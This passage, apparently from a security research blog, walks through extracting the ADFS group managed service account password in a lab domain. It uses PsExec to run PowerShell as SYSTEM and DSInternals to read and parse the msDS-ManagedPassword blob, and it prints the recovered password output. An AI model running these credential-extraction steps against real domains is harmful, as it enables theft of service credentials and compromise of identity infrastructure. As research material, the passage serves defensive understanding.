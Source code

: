 ```
DistinguishedName                           Name ObjectClass ObjectGUID        
-----------------                           ---- ----------- ----------        
CN=ADFS,CN=Computers,DC=aadinternals,DC=com ADFS computer    bb5a6e8a-2956-4...
```

To get the system permissions, I launched the PowerShell as a system using **Sysinternals**' <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" target="_blank">PsExec</a>:
```
psexec -sid powershell.exe
```

Now I was able to access the password blob!

{{< highlight powershell >}}
# Get gmsaADFS account password:
Get-ADServiceAccount -Identity gmsaADFS -Properties "msDS-ManagedPassword"
{{< /highlight>}}

{{< highlight text "hl_lines=3" >}}
DistinguishedName    : CN=gmsaADFS,CN=Managed Service Accounts,DC=aadinternals,DC=com
Enabled              : True
msDS-ManagedPassword : {1, 0, 0, 0...}
Name                 : gmsaADFS
ObjectClass          : msDS-GroupManagedServiceAccount
ObjectGUID           : b3a4f131-bb4f-4bf4-9e54-3d54b285620b
SamAccountName       : gmsaADFS$
SID                  : S-1-5-21-2918793985-2280761178-2512057791-2103
UserPrincipalName    : 
{{< /highlight>}}

Next step was to figure out what to do with the password blob. 
Both blogs I mentioned earlier used **Michael Grafnetter**'s excellent <a href="https://github.com/MichaelGrafnetter/DSInternals" target="_blank">DSInternals</a> tool for this.

DSInternals includes a command <a href="https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/ConvertFrom-ADManagedPasswordBlob.md" target="_blank">ConvertFrom-ADManagedPasswordBlob</a>
which is able to parse the password blob.

{{< highlight powershell >}}
# Get gmsaADFS account:
$gmsa = Get-ADServiceAccount -Identity "gmsaADFS" -Properties "msDS-ManagedPassword"

# Parse blob
ConvertFrom-ADManagedPasswordBlob -Blob $gmsa.'msDS-ManagedPassword'
{{< /highlight>}}

```
Version                   : 1
CurrentPassword           : 逻ᄚꃙ﬚銒樶ﯮꖘﶴᓑ㾁驭屓ᨨ鍛뢍웾䨻汪ᇑ㜽ⱱ띵ꗯ멮큢㽓碖橔△䌙赧ᴣꆂⲃ욌᎟ℼ呺숒蓠⭉ﶎ胭軇...
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 19.16:27:51.4782824
UnchangedPasswordInterval : 19.16:22:51.4782824
```

